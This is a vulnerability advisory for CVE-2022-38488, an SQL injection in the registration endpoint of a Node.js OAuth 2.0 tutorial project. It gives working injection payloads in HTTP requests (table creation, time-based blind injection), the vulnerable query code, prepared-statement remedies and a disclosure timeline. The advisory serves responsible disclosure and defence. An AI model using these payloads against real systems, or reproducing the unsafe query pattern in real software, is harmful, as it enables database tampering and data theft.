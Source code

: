 
# CVE-2022-38488 - SQL Injection in logrocket-oauth2-example

`logrocket-oauth2-example` is vulnerable to an SQL Injection due to the insertion of unsanitized user input into SQL queries.

The affected code has been published on github. The code is part of a tutorial titled "How to implement OAuth 2.0 in Node.js".  
The tutorial is the top three Google result when searching for "nodejs oauth2 example" ( Archived August 2022 - https://archive.ph/us4A3 ). Derived projects are likely to share this vulnerability.

Links:

* https://blog.logrocket.com/implement-oauth-2-0-node-js/
* https://archive.ph/VlGDa
* https://github.com/diogosouza/logrocket-oauth2-example
* https://archive.ph/PecmD


## Proof of Concept

SQL Injection in `/auth/register`

Example HTTP Request (Burp):

```text
POST /auth/register HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 50

password=test3&username=test';CREATE TABLE hacked()--
```

This will create a table named "hacked". 


Data can also be exfiltrated via time-based blind SQL Injections:

```text
POST /auth/register HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 50

password=test3&username=test';SELECT PG_SLEEP(5)--
```

### Proof-of-Concept Script

A Python3 Proof-of-Concept script is provided in the attached archive file. Only run these exploits in local testing environments.

1. Change the `target_ip` variable to the IPv4 address / domain of the target server.
2. Change the `target_port` variable to the TCP port of the target server.

The following command will create a new table named "hacked" in the Postgres database connected to the target server via SQL injection.

3. Run the script with `python3 poc_createtable.py`.


## Vulnerability Explanation

This vulnerability is caused by the direct insertion of unsantized user input into SQL query strings:

```javascript
// vulnerable example code
// ...
const username = req.body.username; // user input
const query = `SELECT * FROM users WHERE username = '${username}'`;
pool.query(query, (error, results) => { /* ... */ });
```

For example a user input of `test';CREATE TABLE hacked()--` will result in the `query` variable being set to:

```sql
SELECT * FROM users WHERE username = 'test';CREATE TABLE hacked()--'
```

## Remedies

It is recommended to use "prepared statements" instead. 

The node-postgres (`pg`) library (used in the project) provides the following example code:

```javascript
//+ Source: https://node-postgres.com/features/queries

//+ Query in prepared statement format
const query = {
  text: 'INSERT INTO users(name, email) VALUES($1, $2)',
  values: ['brianc', 'brian.m.carlson@gmail.com'],
}

// callback
client.query(query, (err, res) => {
  if (err) {
    console.log(err.stack)
  } else {
    console.log(res.rows[0])
  }
})

// promise
client
  .query(query)
  .then(res => console.log(res.rows[0]))
  .catch(e => console.error(e.stack))
```

This will automatically escape provided string parameters.

## Publication Timeline

* Aug 20, 2022 - **CVE-2022-38488** was assigned by the MITRE Corporation
* Aug 22, 2022 - Developer was informed about the vulnerability via Email. A 60 days Responsible Disclosure deadline was set.
* Oct 21, 2022 - Responsible Disclosure deadline expired
* Nov 27, 2022 - Vulnerablity was made public
